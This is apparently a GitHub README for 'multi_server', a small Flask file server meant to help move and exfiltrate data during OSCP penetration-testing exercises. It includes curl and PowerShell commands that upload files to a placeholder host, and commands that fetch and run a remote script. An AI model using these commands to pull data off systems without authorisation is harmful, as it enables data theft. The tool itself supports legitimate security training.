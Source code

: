 # multi_server

**Warning : This app is designed to help during the OSCP to download/exfiltrate datas. Not to be run in production.**

Tested on : Python 3.9

A simple server in Flask to download/upload files.

## Setup

### Binaries

For example on Windows :

    PS > iwr -uri https://github.com/adann0/multi_server/releases/download/v0.0.1/multi_server.exe -outfile multi_server.exe
 
Then you can run :

    PS > .\multi_server.exe <port>

You can access the webapp at `http://<ip>:<port>`.

You can download the files in the current folder from the command line, for example :

    PS > iwr -uri http://<ip>:<port>/<file> -outfile <file>

You can also upload your files, on Linux :

    $ curl -X POST -F "file=@<file_path>" http://<ip>:<port>/upload

Or with Powershell :

    PS > iwr -uri https://raw.githubusercontent.com/adann0/multi_server/main/upload.ps1 -outfile upload.ps1
    PS > .\upload.ps1 -ip <ip> [-port <port>] -file <file_path> 

The uploaded files are in **uploads/**.

### Python Module

	$ git clone https://github.com/adann0/multi_server.git
	$ cd multi_server
	$ python3 -m venv venv
	$ source venv/bin/activate
	$ pip install -r requirements.txt
	$ pip install .

You can then run the Server :

	$ python3 -m multi_server <port>

## Recompile

	$ pyinstaller --add-data multi_server/templates:templates --name multi_server --onefile --clean multi_server/__main__.py

## Source

- https://www.geeksforgeeks.org/how-to-upload-file-in-python-flask/
